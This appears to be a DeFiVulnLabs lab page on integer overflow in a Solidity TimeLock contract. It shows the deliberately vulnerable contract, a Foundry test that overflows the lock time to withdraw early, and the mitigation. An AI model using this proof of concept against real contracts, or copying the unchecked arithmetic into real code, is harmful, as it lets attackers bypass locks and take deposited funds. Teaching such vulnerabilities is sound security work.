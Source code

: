 # Integer Overflow   
[Overflow.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Overflow.sol)   
**Name:** Integrate Overflow  
**Description:**  
The TimeLock has a flaw in the smart contract code that allows
an attacker to prematurely withdraw their deposited funds from the TimeLock contract.  
The vulnerability arises due to an overflow in the increaseLockTime function,
which manipulates the lock time in a way that causes it to wrap around to 0,
enabling the attacker to withdraw their funds before the actual waiting period expires.

**Scenario:**

This contract is designed to act as a time vault.
User can deposit into this contract but cannot withdraw for atleast a week.
User can also extend the wait time beyond the 1 week waiting period.

1. Alice and bob both have 1 Ether balance
2. Deploy TimeLock Contract
3. Alice and bob both deposit 1 Ether to TimeLock, they need to wait 1 week to unlock Ether
4. Bob caused an overflow on his lockTime
5, Alice can't withdraw 1 Ether, because the lock time not expired.
5. Bob can withdraw 1 Ether, because the lockTime is overflow to 0

**What happened?**  
Attack caused the TimeLock.lockTime to overflow,
and was able to withdraw before the 1 week waiting period.

**Impact:** Solidity < 0.8 and without SafeMath

**Mitigation:**

To mitigate the Overflow vulnerability, use SafeMath library or use Solidity > 0.8

**TimeLock Contract:**  
```
contract TimeLock {
    mapping(address => uint) public balances;
    mapping(address => uint) public lockTime;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = block.timestamp + 1 weeks;
    }

    function increaseLockTime(uint _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease; // vulnerable
    }

    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(
            block.timestamp > lockTime[msg.sender],
            "Lock time not expired"
        );

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}
```  
****How to Test:****

forge test --contracts src/test/**Overflow.sol** -vvvv
```
// The testOverflow function, used to test for overflow vulnerabilities.
    function testOverflow() public {
        // Log Alice's balance.
        console.log("Alice balance", alice.balance);
        // Log Bob's balance.
        console.log("Bob balance", bob.balance);

        // Log the start of Alice's deposit.
        console.log("Alice deposit 1 Ether...");
        // Set the message sender to Alice.
        vm.prank(alice);
        // Alice deposits 1 ether to the TimeLock contract.
        TimeLockContract.deposit{value: 1 ether}();
        // Log Alice's new balance.
        console.log("Alice balance", alice.balance);

        // Log the start of Bob's deposit.
        console.log("Bob deposit 1 Ether...");
        // Set the message sender to Bob.
        vm.startPrank(bob);
        // Bob deposits 1 ether to the TimeLock contract.
        TimeLockContract.deposit{value: 1 ether}();
        // Log Bob's new balance.
        console.log("Bob balance", bob.balance);

        // Exploit: Increase the lock time so it overflows and becomes 0.
        TimeLockContract.increaseLockTime(
            type(uint).max + 1 - TimeLockContract.lockTime(bob)
        );

        // Log that Bob can now withdraw his funds because the lock time has overflowed.
        console.log(
            "Bob will successfully withdraw, because the lock time is overflowed"
        );
        // Bob withdraws his funds.
        TimeLockContract.withdraw();
        // Log Bob's new balance.
        console.log("Bob balance", bob.balance);
        // Stop Bob's prank.
        vm.stopPrank();

        // Start Alice's prank.
        vm.prank(alice);
        // Log that Alice can't withdraw her funds because the lock time has not expired.
        console.log(
            "Alice will fail to withdraw, because the lock time did not expire"
        );
        // Try to withdraw Alice's funds. This should revert because the lock time has not expired.
        TimeLockContract.withdraw(); // expect revert
    }
```  
Red box: the TimeLock.lockTime to overflow  
Purple box: issue fixed.  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fd444eaff-b1ef-4171-8890-76186c4de58a%2FUntitled.png?table=block&id=6ec73bdb-955c-42b4-a7c6-5bce2bf97805&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)
